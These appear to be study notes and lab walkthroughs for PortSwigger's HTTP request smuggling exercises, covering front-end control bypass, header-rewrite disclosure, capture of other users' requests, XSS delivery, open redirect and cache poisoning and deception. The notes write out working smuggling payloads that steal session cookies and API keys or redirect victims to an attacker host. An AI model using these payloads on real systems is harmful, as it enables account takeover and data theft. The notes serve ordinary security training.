


## Bypassing Security Controls
Where the **front-end server** is the **point at which security controls are enforced** (access control based on user's role, etc.), these can be bypassed by **smuggling a request to the blocked page to the backend server** within a request for a "legitimate" page.
- *Will have to adapt this smuggled request for the determined server architecture (front-end/backend, and which uses CL and/or TE)*
E.g.:
``` http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```
- **Front end:** Sees and allows through entire request for `/home` (would block `/admin`)
- **Back end:** Sees **one request for `/home`** and **one request for `/admin**`, and serves the latter to the user.**


##### LAB: [Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)
**Objective:** *This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it. To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.*

To determine the type, we can send our usual test request (seen in [Detection techniques](Identifying%20&%20Detecting%20HTTP%20Request%20Smuggling.md#Detection%20techniques))... *or* we can do it all with HTTP Request Smuggler's extension. As we are hinted at it being CL.TE, we can skip to that attack.

Send a `GET /` request to repeater, then:
- Right click & select `Change Request Method`
- Right click & select `Extensions` - `HTTP Request Smuggler` - `Convert to chunked encoding`
- Right click & select `Extensions` - `HTTP Request Smuggler` - `Smuggle Attack (CL.TE)`
Now, edit the code for the request you want to smuggle - for us, the most important bit is `GET /admin HTTP/1.1`:

Launching the `Attack`, we see we get a `401` for the `/admin` being localhost only:

Using our knowledge from [Exploiting HTTP Host Header Vulns](../HTTP%20Host%20Header/Exploiting%20HTTP%20Host%20Header%20Vulns.md), we can try and spoof coming from `localhost` to satisfy this requirement. `Halt` the attack, then `Configure` and edit the prefix code to contain an extra header: `Host: localhost`. However, that still doesn't work - as now our smuggler request's `Host` header is appended to the **Body** of the next request, like so:
``` http
GET /admin HTTP/1.1
Host: 0a6300e304fe5b6c80cd7b6300e400d7.web-security-academy.net
X-Ignore: X
POST / HTTP/1.1
Host: 0a6300e304fe5b6c80cd7b6300e400d7.web-security-academy.net
... etc.
```
We want to override the destination for the next request, which is why we "bump" the second request's headers into the **smuggled request to `/admin`'s body**, by changing it to a `application/x-www-form-urlencoded`-based GET request:
``` http
GET /admin HTTP/1.1
Host: 0a6300e304fe5b6c80cd7b6300e400d7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=POST / HTTP/1.1
Host: 0a6300e304fe5b6c80cd7b6300e400d7.web-security-academy.net
... etc.
```
- `Content-Length: 10` only has to be as long as the **smuggled request's body** (i.e. `/r/n/x=`, so 4 characters), but can do a few bytes extra (hence `10`) to ensure it's all parsed.


Launching the attack and filtering by response length to see any "different" responses, we now can see the admin panel, meaning our request is valid!

Now, just inspect the response source code and change the attack's target to `/admin/delete?username=carlos` to delete carlos!


##### LAB: [Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)
**Objective:** *This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it. To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.*

To determine the type, we can send our usual test request (seen in [Detection techniques](Identifying%20&%20Detecting%20HTTP%20Request%20Smuggling.md#Detection%20techniques))... *or* we can do it all with HTTP Request Smuggler's extension. As we are hinted at it being `TE.CL`, we can skip to that attack.

Send a `GET /` request to repeater, then:
- Right click & select `Change Request Method`
- Right click & select `Extensions` - `HTTP Request Smuggler` - `Convert to chunked encoding`
- Right click & select `Extensions` - `HTTP Request Smuggler` - `Smuggle Attack (TE.CL)`
Now, edit the code for the request you want to smuggle - for us, the most important bit is `GET /admin HTTP/1.1`, as well as the required headers to do so (presuming the previous `CL.TE` `localhost` override also works):

As we selected `(TE.CL)` attack, this prefix code has changed a bit as well due to the type of smuggling being performed - making adapting it to our purposes easier.
Launching `Attack` and filtering by response length to see any "different" responses shows us the exposed `/admin` again, so can delete `carlos` in a similar way to last time by changing the smuggled request's target to `GET /admin/delete?username=carlos`!

\
The red highlighted length shows our successful smuggled `GET /admin/delete?username=carlos` response, and the green one shows having solved the lab!


---

## Revealing front-end request rewriting
**Front-ends often perform some kind of request rewriting**, e.g. adding **headers or any other sensitive info** to route the request to the backend, like:
- Terminating TLS & adding headers describing the protocols used
- Adding an `X-Forwarded-For` header containing the user's IP address
- Adding the **user's ID** **based on the session token** in use
- Adding any other sensitive information
So, **if smuggled requests are missing some/any of these frontend-added headers**, they may be processed incorrectly & thus exploited.

#### Testing for front-end request rewriting:
1. Find a `POST` request that **reflects the value of a request parameter** into the **application's response**.
2. Shuffle the parameters so that the **reflected parameter appears last** in the message body.
3. Smuggle **this request to the back-end server**, followed directly by a **normal request whose rewritten form you want to reveal**.
*Ensure the Smuggled request's `Content Length` is large enough, so the backend knows to **process the entire rewritten request & any additional headers***
##### Example:
1. **Reflected request parameter input:**
For an app with a login feature / search bar feature:
``` http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net 
~ OR ~
search=XYZ
```
**Response:**
``` html
<input id="email" value="wiener@normal-user.net" type="text">

// or 
   <section class=blog-header>
		<h1>10 search results for 'XYZ'</h1>
		<hr>
	</section>
	<section class=search>
		<form action=/ method=POST>
			<input type=text placeholder='Search the blog...' name=search>
			<button type=submit class=button>Search</button>
		</form>
	</section>
```
2. Ensure **targeted parameter** is **last** in message body - e.g. request *ends with* `email=xyz@test.com`
3. Add this parameter (`email=`) **inside the smuggled request body**, and change it's value to **ANOTHER REQUEST**:
``` http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```
This way:
- The (3) requests are **rewritten by the front-end server** to **include any additional headers** (e.g. internal routing, authentication, etc.)
- The smuggled request is **processed by backend** such that **these additional headers are reflected into the value of the set parameter (`email=XXX`)**
For example:
``` html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```


### Bypassing client authentication
In cases where mutual TLS authentication is present, where **clients must also present a certificate to verify themselves to the server**, such that their **`Common Name (CN)` matches their registered `Hostname`**. This `CN` is often a username, and may be **used by the backend** as some form of **access control**, after being **added by the frontend as a custom header**, e.g.:
``` http
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```
Because these headers are **typically hidden from users & added by frontend**, they can be **implicitly trusted/used as a form of access control** by backend servers. If you can **determine what headers are in use**/being added, you could **smuggle a request through that is hidden from the frontend** (and thus injected headers aren't overwritten) to manipulate what headers reach the backend:
``` http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```


##### Lab: [Exploiting HTTP request smuggling to reveal front-end request rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)
**Objective:** *This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
There's an admin panel at `/admin`, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.
To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user `carlos`.*

Reviewing our steps to find out front-end request rewriting...
- Step 1: Find a `POST` request that **reflects the value of a request parameter** into the **application's response**.
Found that the search bar reflects the response within resulting code:

Can see if this will reflect the frontend-added headers added to a smuggled response!

But first, to see if smuggling is possible - we test for a `CL.TE` vulnerability more generally (same process as [here](Exploiting%20HTTP%20request%20smuggling%20vulnerabilities.md#LAB%20[Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20CL.TE%20vulnerability](https%20//portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te))). Thankfully, we see that we get varying response lengths when trying to smuggle in a request for `/admin` (using the `CL.TE` structure) , indicating that the frontend and backend servers are processing request length differently. The response for the smuggled `/admin` request reveals it's only accessible via requesting from 127.0.0.1, likely via a custom header.


So, moving back to the search bar feature, if we try and smuggle in a request with the `search=x` parameter in the body...


This should set the **rewritten version of this smuggled `POST` request** as the **value of `search`**, to be **reflected in some of the resulting responses**. 
This should reveal any custom headers or request modification being done by the frontend, particularly any custom `X-Forwarded-For` adjacent headers.
Examining the results of our attack, we do have some varying response lengths - and we see:

So, our lab uses the custom header `X-lgAePP-Ip:`, rewritten to all requests **processed by the frontend**. Thus, we need to add `X-lgAePP-Ip: 127.0.0.1` to our smuggled request **processed only by the backend** to access `/admin`. Ensure to keep the request body (`Content-Type` and `Content-Length`) & junk variable assignment (`x=whatever`), so our smuggled request is properly processed (e.g. the victim's request is bumped into the **body** of our smuggled message, and our smuggled message + headers take effect).

What I mean by this is, the backend will receive our smuggled request for `GET /admin` and the victim's benign `POST /` request is bumped into the body and thus discarded:
``` http
GET /admin HTTP/1.1
X-lgAePP-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=2POST / HTTP/1.1
Host: 0abb004204a71ba1802094a000e000f6.web-security-academy.net
```

Launching the attack, we can see our overwrite with XXX was successful, and we can now access the `/admin` panel!

... and then delete carlos by modifying the request to `GET /admin/delete?username=carlos`:


---

## Capturing other users' requests
For any functionality that **stores & retrieves textual data**, can potentially use this to **capture contents of other users' requests** (e.g. session tokens, API keys, personal details, etc.). Vectors could include:
- Comments
- Emails
- Profile descriptions
- Screen names
- Posts
- Announcements, etc.

#### Steps:
1. Identify a request that submits data to the application, where the **parameter containing the data is LAST in the request body**.
   E.g., `comment=My+comment`:
``` http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=My+comment
```
2. **Smuggle this request** inside another one, with an **overly long `Content-Length`** header (e.g. `Content-Length: 400`) and the **targeted parameter at the end of the body** `&comment=`:
``` http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```
3. As we've only sent `144` bytes out of the expected `400`, the **backend will wait for the remaining 256 bytes before issuing a response.** During this time period, **any other requests received by that backend may be treated as the remainder of this response**, and it may append & send arbitrary user request data with the final response. This means the final request reaching the backend could look like this, if it also captures a stray `GET /` request received during this waiting period:
   ``` http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
   ```
This could then be displayed on the site as a new `comment`, or wherever this parameter is reflected!
4. May need to **adjust `Content-Length` of smuggled request** to capture more/less of a victim's request
	- Timeout = `ContentLength` > actual victim's request length, reduce it accordingly

**Note:** *Will **only capture data up until any parameter delimiter** (`&`), which may be a **parameter inside the query string** and thus truncate it early.*


##### Lab: [Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)
**Objective:** *This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. To solve the lab, smuggle a request to the back-end server that **causes the next user's request to be stored in the application**. Then retrieve the next user's request and use the victim user's cookies to access their account.*

First, need to identify a request that **submits data to the application**, where the **parameter containing the data is LAST in the request body**. 
The post comment feature looks good - and we can shuffle the parameters such that the `comment` is at the end:


As the frontend doesn't support chunked encoding, is a `CL.TE` vulnerability. Testing for this by sending a `GET /` request to repeater, then:
- Right click & select `Change Request Method` to `POST`
- Right click & select `Extensions` - `HTTP Request Smuggler` - `Convert to chunked encoding`
- Right click & select `Extensions` - `HTTP Request Smuggler` - `Smuggle Attack (CL.TE)`
- Ensure you're requesting a non-existent page in the `prefix =` section of the Turbo Intruder code
As we can see through differential responses, we have a `CL.TE` vulnerability!


So, lets try smuggling in our previous `POST` request to submit a comment. **Ensure you have & include a valid cookie & csrf token**, test the `POST` manually in repeater to check it works before smuggling the request:

*(Stripped unnecessary headers to test)*

After trying this a few times, I begun to capture the victim's requests:

Needed to increase/decrease `Content-Length` as I went, and **wait about 2-3 minutes without loading the site myself** for the victim to access the site. The sweet spot for me seemed to be `Content-Length: 955`, but it depends on the length of your request body (`csrf=xxxxx...`).


Now, we can hijack this session and access the account!


---
### Using HTTP request smuggling to exploit reflected #XSS
If the application already contains reflected XSS, it can be **chained with HTTP Request smuggling** to **increase the impact and number of users affected**, because:
- Requires **no interaction with victim users** - just smuggle HTTP request with XSS payload, and the **next user's request processed will be hit**
- Allows **exploiting XSS in parts of requests that are harder to control** - like HTTP headers (e.g. `User-Agent`), to be smuggled & then delivered to other users. 
  *E.g. victim's request will be appended to the smuggled request below with `User-Agent: <script>alert(1)</script>`, and payload fires in their browser with no interaction*
``` http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```


##### Lab: [Exploiting HTTP request smuggling to deliver reflected XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)
**Objective:** *This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
The application is also vulnerable to reflected XSS via the `User-Agent` header.
To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.*

Right, so another `CL.TE` vulnerability. Finding somewhere in the application where `User-Agent` is reflected, we can inject via XSS here, and it fires after clicking `Request in Browser`.


So, the victim just needs to view **any page vulnerable to request smuggling** (e.g. `GET /`) and if we can smuggle in a request containing this `User-Agent` header, they will be served the XSS-injected request to the blog post page.

Testing for CL.TE this time manually, by sending a `GET /` request to repeater, then using a CL.TE timing test:

As we can see through the backend server timeout waiting for the dropped `X`, we have a potential `CL.TE` vulnerability!
Now, let's build the above attack into this. Right click & select `Extensions` - `HTTP Request Smuggler` - `Smuggle Attack (CL.TE)`, and for our smuggled request, use our previous `GET /post?postId=6` request, but add a body to absorb the victim's request:
``` http
GET /post?postId=6 HTTP/1.1
Host: 0a25008503ddaa47809a21210011001c.web-security-academy.net
User-Agent: "><script>alert(1)</script>x
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=1
```


After firing this off and waiting a while for our victim to access the page we just `POST`'ed to, success! They are delivered our `User-Agent:` XSS header & it's reflected in the page served to them.


---

## Using HTTP request smuggling to turn an on-site redirect into an open redirect
#open-redirection 
Many sites may **perform on-site redirections** from one URL to another (e.g. Apache & IIS web servers), often based on the value of the `Host:` header, to normalise the input, add `/`, etc. For example:
``` http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Where this is present, you may be able to **inject a smuggled request with a `Host: attacker.com`** to poison this `Host:`-based redirect, and **redirect to external websites**/**load external script files** in the victim's browser!
``` http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
The next request that the backend handles (the victim's) will then be appended to the **smuggled request**, like so:
``` http
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```
Thus, the victim will receive this **open-redirect style response** to an attacker's external domain:
``` http
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

### For root-based redirects (`Host:` not used to construct `Location`):
Where the `Host:` isn't used in the redirect, if the server permits a **protocol-relative URL** in the request path, can still be possible!
E.g.
``` http
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```

### Using HTTP request smuggling to perform web cache poisoning
#web-cache-poisoning 
If the site performs any caching, can potentially **poison it with an off-site smuggled redirect response**, making the attack persistent and **affect any user requesting the affected URL.** 
Just need to:
1. Identify what responses are cached, and in what scenarios
2. Identify how to inject & serve the open redirect (`Host:` or **protocol-relative URLs - `Location: //site.com`**)
3. Smuggle in request wherever possible, containing this redirect to be cached & served to other users.


##### Lab: [Exploiting HTTP request smuggling to perform web cache poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)
**Objective:** *This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.
To solve the lab, perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache should alert `document.cookie`.*

Okay - so we have an endpoint with a potential `CL.TE` smuggling vulnerability. Testing as usual with our timing based `CL.TE` request:

As we can see through the backend server timeout waiting for the dropped `X`, we have a potential `CL.TE` vulnerability!

Examining the site, it is hinted to only **cache certain responses.** Trying to browse the site, we don't see any cache hits, nor when removing all `Cookies`. Perhaps a custom header? 
We can do so via the extension **Param Miner** to `Guess Headers`. After starting a scan on the base `/`, it returns... nothing. And searching for any `X-Cache` doesn't bring up anything. So, **if we read the question properly (lol)**, we make sure to edit our view to display `.js` files being loaded... and bingo!


We can edit this using a cachebuster (`cb=123`) for now.


So, we want to smuggle a request for this file, but request it from our site. Given it loads on every page, we need to find a page that performs a **redirect**. Browsing, we see `Next Post` does this:

Trying to override this to turn into an open redirect with a `Host:` header manually in Repeater doesn't work... **unless we try smuggling it.** 
Manually set up two tabs: `Attacker` and `Victim`, both HTTP 1.1 and both `POST /` requests. Keep `Update Content-Length` **ON** as is a `CL.TE` vuln.

So, smuggling in a `/GET` request to our redirect page using an arbitrary `Host` header...

And then sending the victim's standard `POST /` request... we see they are served the poisoned redirect to our site!

We also see the client ends up **requesting this page `/post?postId=5`**, in our server logs!

So. From this, if a user is served this poisoned request, their browser will reach out and **load the `tracking.js` script** (which is **cached**) from the **relative URL** - which, for *the first poisoned request*, is:
- `https://exploit-0ab900050360b86680cfb6b501c300fe.exploit-server.net/post/`
Now we need to host a script on this server to be fetched, that pops `alert(document.cookie)` when this `post` page is loaded:

So, **just** before the front-end cache expires for `tracking.js`, **QUICKLY send our poisoned redirect HTTP request to the base endpoint `/`**, and then **immediately send the `GET /resources/js/tracking.js`** request after. 
Our first attacker request results in the backend being poisoned to **respond to the next request** (our second one, `GET /resources/js/tracking.js`) with a redirect to **our exploit server**, and **caches that response (see `X-Cache: miss`)**:

This means, when a normal user loads the site, when they request `GET /resources/js/tracking.js`, they will be served this cached redirect response to our server, where our "malicious" `alert(document.cookie)` javascript is hosted! By clicking **Follow redirect** after requesting `tracking.js`, can see it loads our javascript:

... which solves the lab, after reloading the page to **trigger this cached redirect request to our javascript payload**!


##### Helpful video walkthrough:
- [Lab: Exploiting HTTP request smuggling to perform web cache poisoning](https://www.youtube.com/watch?v=yeWAViajjHw)

---

## Using HTTP request smuggling to perform web cache deception

**Web Cache Poisoning:** Causes **malicious content to be stored IN the cache**, and **served to other users**
**Web Cache Deception:** Attacker causes cache to **store another user's sensitive content**, to then be **retrieved from the case**

So when combined with HTTP request smuggling, attacker **smuggles a request that will retrieve sensitive user-specific content** - such as messages, account details, transaction IDs etc.:
``` http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

Then, the victim's request is **appended to the smuggled request** on the backend, **including session cookies & headers**
**Resulting victim's request, appended to smuggled request:**
``` http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
```
As this request is to the `/private/messages` endpoint & contains the **victim's appended cookies**, it's **processed in the context of the logged-in user's session** by the backend and the response **contains the victim's messages.**

This backend response containing user messages **is now CACHED against the value of the victim's original URL received by the frontend**, `GET /static/some-image.png`, and can be retrieved by the attacker to view the messages.
**Cached page:**
``` http
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```
**NOTE:** *As the attacker doesn't know the URL against which the sensitive content will be cached, may need to **test a large amount of static URLS to find which one the deceptive response was cached against.***


##### Lab: [Exploiting HTTP request smuggling to perform web cache deception](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception)
**Objective:** *This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is caching static resources.
To solve the lab, perform a request smuggling attack such that the next user's request causes their API key to be saved in the cache. Then retrieve the victim user's API key from the cache and submit it as the lab solution. You will need to wait for 30 seconds from accessing the lab before attempting to trick the victim into caching their API key.
You can log in to your own account using the following credentials: `wiener:peter`*

Okay, so `CL.TE` is our likely vector based on the description. Can validate it with our timing based `CL.TE` request:

As we can see through the backend server timeout waiting for the dropped `X`, we have a potential `CL.TE` vulnerability!

To find where the API key is loaded, the `GET /my-account` displays a page with the key, bound to the logged in user's session:


So, we ideally want to get this page cached **for another user**, likely through a static asset. `tracking.js` has a `X-Cache` header, so this looks likely to be cached!

To craft our smuggling request, add in a smuggled request to `/my-account` including `Foo: X` to invalidate & overwrite the victim request's destination header, e.g.:
``` http
GET /my-account HTTP/1.1
Foo: XGET /resources/js/tracking.js HTTP/1.1
Host: xxxx....
```
And quickly requesting a static, cached file after:

Success! We were served the smuggled request for `GET /my-account`, and if the user is logged in, this page **would be cached** (see `X-Cache: miss`). Trying again, sending the first smuggling request to `/my-account`, then a request to the cached resource with ("the victim's") a valid `session` cookie:


Success! We are served the API key page when requesting a static resource due to the smuggled request destination overriding it... and this resource is cached, saving the response to be served to other users when loading that resource!


So, now - we need to wait for the cache for `tracking.js` to expire, and then send our smuggling request a few times, such that the victim will, when loading the static resources, get served the smuggled request for `/my-account`. Then this request + their cookie will be combined to fetch their API key on the account page, and the response containing their API key will be **cached** to the request for that static file (`tracking.js` here).

Then, we just search for "`Your API`" in Burp Search, and force reload the home page a few times to re-fetch all static assets, and see if we got any hits from any cached requests from the victim.


Yippee!


---